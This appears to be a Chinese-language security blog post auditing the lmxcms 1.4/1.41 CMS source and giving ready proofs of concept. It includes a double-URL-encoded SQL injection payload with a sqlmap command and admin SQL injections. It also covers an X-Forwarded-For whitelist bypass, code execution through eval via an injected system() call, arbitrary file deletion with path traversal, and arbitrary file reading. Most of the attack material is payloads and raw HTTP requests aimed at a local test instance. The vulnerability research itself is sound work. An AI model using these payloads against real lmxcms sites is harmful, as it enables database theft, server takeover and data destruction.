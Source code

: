 ```yaml
---
title: lmxcms全漏洞poc
copyright: true
date: 2022-02-10 14:52:26
tags: 渗透测试
---
```

lmxcms源码审计
<!-- more -->
**1.4前台sql注入漏洞**
c/index/TagsAction.class.php
1.构造函数通过_POST方式获取name变量
2.p函数对数据校验，过滤关键字+addslashes转义
3.通过delHtml函数（strip_tag函数）去除标签对，进行一次url编码
4.sql拼接查询
![1.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/1.png)
{%asset_img 2.png%}
{%asset_img 3.png%}
数据检查后进行了一次urldecode，可以通过两次url编码绕过addslashes函数的转义
```
poc: 'and (updatexml(1,concat(0x7e,(database()),0x7e),1)) and '1'='1

两次Urldecode：http://127.0.0.1:8081/lmxcms1.4/index.php?m=tags&a=index&name=%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%63%25%33%31%25%32%39%25%32%39%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%37%25%33%31%25%32%37%25%33%64%25%32%37%25%33%31
```
{%asset_img 4.png%}
lmx1.txt
```
GET /lmxcms1.4/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jiit711t06f5plsu8fo7bbqla2; XDEBUG_SESSION=XDEBUG_ECLIPSE
Upgrade-Insecure-Requests: 1
```
sqlmap：
```
python2 sqlmap.py -r lmx1.txt --technique=E -v3 --tamper=chardoubleencode -p name --dbs
```

**1.4/1.41后台sql注入漏洞**
c/index/AcquisiAction.class.class.php
POST的参数未过滤，但后台本身可以执行sql语句（无回显），此漏洞危害较低
{%asset_img 5.png%}
```
poc：1' and updatexml(0,concat(0x7e,database()),1) and '1
```
{%asset_img 6.png%}
c/admin/AcquisAction.class.php 中 311行查询时对获取的lid参数未检验，且sql语句直接拼接，导致sql注入
{%asset_img 7.png%}
{%asset_img 8.png%}
```
Poc: http://127.0.0.1:8081/lmxcms1.4/admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,(select+1+and+(updatexml(1,concat(0x7e,(select+database()),0x7e),1))),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
{%asset_img 9.png%}
**1.4/1.41绕过ip白名单**

后台ip白名单可通过X-Forwarded-For 绕过
{%asset_img 10.png%}

**1.4/1.41后台任意代码执行**
c/admin/AcquisAction.class.php 中 318行eval执行了$temdata['data']参数，该参数的值是从lmx_cj_list数据表中查询出的array字段的值，而查询时存在sql注入导致该字段可控，从而导致任意代码执行。
{%asset_img 11.png%}
```
Poc: admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,'1;system(\'ipconfig\');',1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
{%asset_img 12.png%}
**1.4/1.41 后台任意文件删除**
c/admin/FileAction.class.php 中使用unlink方法删除文件，unlink方法调用php unlink方法，此处未对传入的路径做检查，存在任意文件删除。
{%asset_img 13.png%}

poc:
```
POST /lmxcms1.4/admin.php?m=File&a=delete HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/lmxcms1.4/admin.php?m=File&a=index&type=0
Upgrade-Insecure-Requests: 1

type=0&delImages=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87&fid%5B%5D=7#####/test.txt
```
其中test.txt在index.php 同级目录下，且可使用..进行目录穿越。
**1.4/1.41 后台任意文件读取**
c/admin/TemplateAction.class.php
{%asset_img 14.png%}
{%asset_img 15.png%}
{%asset_img 16.png%}
poc:
```
http://localhost:8081/lmxcms1.4/admin.php?m=Template&a=editfile&dir=../flag.txt
```
